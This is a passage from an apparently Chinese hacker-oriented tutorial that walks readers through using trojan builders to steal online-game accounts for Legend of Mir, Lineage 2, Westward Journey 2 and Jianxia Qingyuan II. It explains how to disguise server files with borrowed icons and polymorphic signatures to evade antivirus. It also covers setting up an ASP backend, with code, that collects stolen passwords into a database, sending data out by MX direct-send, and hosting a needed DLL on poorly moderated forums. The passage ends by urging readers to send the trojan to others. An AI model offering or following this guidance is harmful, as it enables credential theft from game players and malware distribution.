这个木马针对的是热血传奇，能运行在 Win98/Win2000/WinXP 和 Win2003 下，对游戏本身不会造成任何停顿，支持外挂，并自动捕杀各种流行的杀毒软件。可截取传奇登录区域 ID、密码、服务器、职业、名称、性别、等级、随身装备、背包信息和计算机 IP 等信息。我们运行该程序，界面如图2.17所示。程序使用邮箱收信并且软件的使用说明建议我们使用 TOM 的免费邮箱。我们只需要填写收信邮箱，不需要填写发信邮箱，避免了别人嗅探到发信邮箱的危险。





生成服务端时可以修改文件图标，点击修改图标，在图2.18所示的界面中点击选择文件，我们可以选择任何有图标的文件，程序会自动提取图标（图2.19）。程序采取“变形特征码”概念，根据用户输入的特征数字不同，从而生成的服务端文件结构不相同，可以最大限度地避开杀毒软件的查杀。



我们可以在特征数字中随意填写，但好像对卡巴斯基没什么作用，我测试了几次都被杀掉了。最后点击生成服务端，弹出另存为的对话框，我们输入名字，选择保存后就能生成服务端了（图2.20）。



## 2.3 天堂2木马国际通用版

说起天堂2，我当时也上去体验了一把，游戏性虽然一般（个人喜好），但画面和音效那是没得说，那时中关村里配电脑的标准都是能跑天堂2。由于最初天堂2的注册人数过多，新浪采取了手机注册的方式，方法不错但是安全没有做好，导致系统被入侵。而之后火爆一时的天币工厂和遍地开花的代练组织，听说这类公司现在弄得很正规，每天上班都要打卡。不过现在好多组织已经把重心转向魔兽了。沉寂了一段时间的天堂最近又爆出新闻：韩国警察厅称，近几个月，网络游戏《天堂》有近百万个账号被盗，而盗号者的 IP 大部分来自中国。中韩网络游戏争端由来已久，“打金”可以说是最为关键的一个诱因。结果韩国游戏运营商屏蔽了来自中国大陆玩家的 IP。让大家听我说了这么多关于天堂的事情，无非想让大家明白一个网游的火爆必然会导致其木马的猖獗。今天我给大家带来的是这款“天堂2木马国际通用版”，据说可以通杀各国的天堂2，还等什么，让我们来看看吧。

首先我打开程序，界面如图2.21。从图中可以看出就有一个需要填写的地方，这一般是利用网站收信的特征，利用邮箱收信都会有多处需要填写的地方（少数情况有利用 MX 特快发信的木马会只有一处需要填写）。如果你有一个稳定的空间，用空间接收密码还是不错的选择，浏览非常方便，保密性也比邮箱好（前提是你的空间没有被入侵）。



在填写收信 URL 前我先讲一下如何设置收信程序，磨刀不误砍柴工。在天堂2木马国际通用版程序文件夹中还有一个名为“ASP文件”的文件夹，这个文件夹下就是 ASP 收信程序，一共有五个文件，我来一一介绍。



#### 1. mimi.asp

查看信件的文件，界面如图2.22。在“账号查找”框内输入账号名称，然后点击查询，可以从数据库中查询你想要找的账号。程序还提供了删除账号的功能，可以把没有用的或者密码错误的账号删除。

#### 2. main.css

它是 mimi.asp 文件的样式表，可能我这样说大家还不明白，不过看完下面的对 CSS 的介绍你就知道了。

> **小提示：**CSS 就是 Cascading Style Sheets，中文翻译为“层叠样式表”，简称样式表，它是一种制作网页的新技术。  
> 网页设计最初是用 HTML 标记来定义页面文档及格式，例如标题 `<h1>`、段落 `<p>`、表格 `<table>`、链接 `<a>` 等，但这些标记不能满足更多的文档样式需求，为了解决这个问题，在 1997 年 W3C（The World Wide Web Consortium）颁布 HTML4 标准的同时也公布了有关样式表的第一个标准 CSS1。自 CSS1 的版本之后，又在 1998 年 5 月发布了 CSS2 版本，样式表得到了更多的充实。W3C 把 DHTML（Dynamic HTML）分为三个部分来实现：脚本语言（包括 JavaScript、Vbscript 等）、支持动态效果的浏览器（包括 Internet Explorer、Netscape Navigator 等）和 CSS 样式表。  
> 你可以用 CSS 精确地控制页面里每一个元素的字体样式、背景、排列方式、区域尺寸、四周加入边框等。使用 CSS 能够简化网页的格式代码，加快下载显示的速度，外部链接样式可以同时定义多个页面，大大减少了重复劳动的工作量。  
> **注意：**CSS 需要 IE4（Internet Explorer 4.0）和 NC4（Netscape 4.0）以上的浏览器支持，有些效果需要更高版本的浏览器支持。

#### 3. t2.asp

天堂2木马国际通用版的收信文件，木马通过它来把得到的账号和密码写进数据库。这个文件可以改名，但要记住在填写木马中的收信地址时要填改过的名字，不然就收不到信了。

#### 4. t2aaa.asp

数据库文件，这个文件名建议修改，但要记得在配置文件中也修改数据库路径。

#### 5. co.asp

它的代码如下：

```asp
<% on error resume next

dim conn
dim dbpath

set conn=server.createobject("adodb.connection")
DBPath = Server.MapPath("t2aaa.asp")
```

```asp
conn.Open "driver={Microsoft Access Driver (*.mdb)};dbq=" & DBPath

dim rs

set rs = server.createobject("adodb.recordset")
```

从代码中看出数据库是使用 Access 数据库，这是大多数木马收信所采用的数据库。在代码开头还加入了容错语句“on error resume next”，这句代码的作用是当 ASP 语句执行时发生错误，就跳过错误，继续向下执行，而且不会返回错误信息，也就是防止暴库攻击。定义数据库名称是在第五行代码“DBPath = Server.MapPath("t2aaa.asp")”，代码定义了数据库路径为 t2aaa.asp。木马默认把数据库修改成 ASP 格式，也可以修改成其他格式或名称，再把修改好的数据库路径填写到这句代码中。



图 2.23

设置完收信程序后，再把这几个文件上传到我们自己的空间中，就可以开始生成木马了。

我们在收信 URL 框内填写收信文件的地址（t2.asp 为收信文件），例如：http://www.myhome.com/tiantang2/t2.asp。点击生成后，在如图 2.23 的对话框中填写文件名，再点击保存就行了。

## 2.4 大话西游2木马与梦幻西游

曾经有一个超级无敌霹雳的木马摆在我面前，我没好好珍惜。如果上天愿意再给我一次机会的话，我会对那木马说：“我要了！！！”如果非要加上个期限的话，我希望是“永远”。听我说得这么热闹，你想必也猜到了这个木马就是大话西游2木马，它也可以截取梦幻西游的账号和密码。大话西游和梦幻西游是网易的看家网游，它们创造了国产网游的在线奇迹，打败了大多数韩国网游泡菜，让国产网游扬眉吐气。好游戏当然会有它的游戏木马，就像游戏外挂一样，要是一款游戏混得都没有外挂，那离停止运营也不远了。我还是来关心一下我们的木马吧。

我们先打开木马程序，界面如图 2.24。



图 2.24

从图中可以看出这个木马是利用邮箱收信的，不过还有一个地方需要填写“动态链接库文件下载地址”，这个在以前的盗号木马中是很少见的。到底这个动态链接库文件有什么用呢？我看了作者的说明后知道，这个文件是用来发送邮件的。可是我们普通的邮件发送不需要单独下载动态链接库文件，原来这个木马是使用 MX 发信。这种直发邮件技术我想大家看了前面的内容后还记得一点，我上次也只是略微地说了一下，它的具体原理我没有提到，现在就给大家讲解讲解。工欲善其事，必先利其器，只有懂得各种木马的大概原理，才能更好地选择和使用。

上次提到了直发邮件就像生活中的特快专递，本机直接连接到收件箱的 SMTP 服务器。在连接前我首先要知道收件箱的 SMTP 服务器地址，运送特快专递也是要有目的地的，不然谁知道往哪里送呀。本机先访问 DNS 服务器（DNS，Domain Name System 或者 Domain Name Service，域名系统或者域名服务。域名系统为 Internet 上的主机分配域名地址和 IP 地址。用户使用域名地址，该系统就会自动把域名地址转为 IP 地址。域名服务是运行域名系统的 Internet 工具。执行域名服务的服务器称之为 DNS 服务器，通过 DNS 服务器来应答域名服务的查询），找到收件方 SMTP 服务器的地址。如 mymail@21cn.com，这里需要通过 DNS 对 21cn.com 进行 MX 记录解析，解析出一个或多个（通常情况下是多个）MX 记录地址，这些记录地址对应的就是对方 SMTP 服务器。我们现在已经有了收件方 SMTP 服务器的地址，之后就是与其直接交互并发送邮件。

看了上面的内容，你肯定对邮件直发有了个全面的了解，利用这种技术可以防止泄漏发信箱的用户名和密码，极大限度地保护了我们邮箱的安全。因为邮件直发技术多用在垃圾邮件的发送，而现在各大电子邮箱提供商对垃圾软件的防范也特别严，所以我们就要找一个能够发送的邮箱来使用。

在作者的说明中提到，服务端已经内置了一个动态链接库文件的下载链接，当下载链接有效的时候，用户无需填写下载地址。因为我们不知道这个下载链接，不能判断其是否有效，为了保险起见，我们还需要自己填写下载链接。有空间的朋友就省事了，只要把 mail.dll 文件上传到空间中就行，不用担心自己的链接是否失效。没有空间的朋友也别灰心，我们只要让木马能下载到这个文件就行了。

在论坛中，因为没有限制文件名，所以可以把文件改成论坛允许的格式，像 jpg、gif、txt 等。这里我告诉大家，在选择论坛时不要选择那些大论坛，虽然访问速度快，但是那些地方的管理员也是非常勤快的，经常删除无用的上传附件，我的文件还没用两天就没了。选择那些访问量低的论坛，一天也没有两个人在线，管理员才不管你传的是什么呢。我们把文件上传好后，把下载地址填写到木马中，然后点击生成（图 2.25）。

从图中能看到木马在生成服务端后，用 FSG V2.0 压缩了木马，可以看出压缩了将近 50%，由原来的 164KB 变成了 76KB，这在传送木马上方便了我们。目录下的 server.exe 就是生成的木马，赶快传给别人试试木马的效果吧。



### 2.5 剑侠情缘Ⅱ木马生成器

西山居制作的剑侠情缘系列是国产游戏的经典武侠系列，它和仙剑奇侠传、轩辕剑并称为三大经典武侠游戏系列。而现在除了仙剑奇侠传外都有了各自的网游版，不过仙剑奇侠传 OL 也快要封测了。这虽然是顺应潮流，但是玩网游已经找不到当初玩单机游戏时的感动了，现在也只有大宇还在坚持做仙剑奇侠传的单机系列。我还记得当初玩《剑侠情缘Ⅱ》时被剧情感动得一塌糊涂，为了打出完美结局通关了 N 遍也没看到。后来才知道要“白金版”才能打出。建议大家听听谢雨欣为剑侠情缘Ⅱ演唱的插曲《天仙子》，给人一种空灵婉转的感觉，值得收藏。



题外话说完，我们进入正题。我给大家带来的是一款功能强大的剑侠情缘Ⅱ木马生成器，且听我慢慢道来。

